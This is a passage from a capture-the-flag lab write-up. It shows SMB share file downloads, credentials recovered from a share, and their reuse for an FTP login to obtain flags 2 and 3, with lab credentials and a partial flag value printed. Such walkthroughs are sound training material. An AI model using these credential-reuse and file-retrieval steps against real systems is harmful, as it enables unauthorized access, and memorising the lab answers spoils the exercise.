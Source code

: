 ```bash
    #  Type  Name       Created                    Accessed                   Written                    Changed                    Size
    -  ----  ----       -------                    --------                   -------                    -------                    ----
    0  DIR   .          2024-06-13T14:11:07+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30
    1  DIR   ..         2024-06-13T14:11:07+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30
    2  FILE  flag2.txt  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30  2025-05-31T19:15:38+05:30  34
    3  FILE  hint.txt   2024-06-13T14:45:39+05:30  2024-06-13T14:45:39+05:30  2024-06-13T16:00:47+05:30  2024-06-13T16:00:47+05:30  71
SMB (10.5.16.222\ITResources) > download flag2.txt
[*] Downloaded 34.00 B of 34.00 B (100.0%)
[+] Downloaded flag2.txt to flag2.txt
SMB (10.5.16.222\ITResources) > download hint.txt
[*] Downloaded 71.00 B of 71.00 B (100.0%)
[+] Downloaded hint.txt to hint.txt
```

with that we found the flag2 and also a creds for further investigation `david:omnitrix_9901`

---

### Flag 3:

I wonder what the hint found in the previous challenge be useful for!

Now that we found the creds let’s try with ftp services which is running on target system and we managed to logged in and found the flag3!

```bash
┌──(root㉿INE)-[~]
└─# ftp target.ine.local
Connected to target.ine.local.
220 Microsoft FTP Service
Name (target.ine.local:root): david                                                                                                                                                      
331 Password required                                                                                                                                                                    
Password:                                                                                                                                                                                
230 User logged in.                                                                                                                                                                      
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49404|)
125 Data connection already open; Transfer starting.
06-13-24  10:36AM       <DIR>          aspnet_client
05-31-25  01:45PM                   34 flag3.txt
06-13-24  10:34AM                99710 iis-85.png
06-13-24  10:34AM                  701 iisstart.htm
226 Transfer complete.
ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
229 Entering Extended Passive Mode (|||49407|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************************************************************************|    34        9.10 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (8.45 KiB/s)
ftp> !cat flag3.txt
5871dd181fee4eb4a4dc43a8********
```

---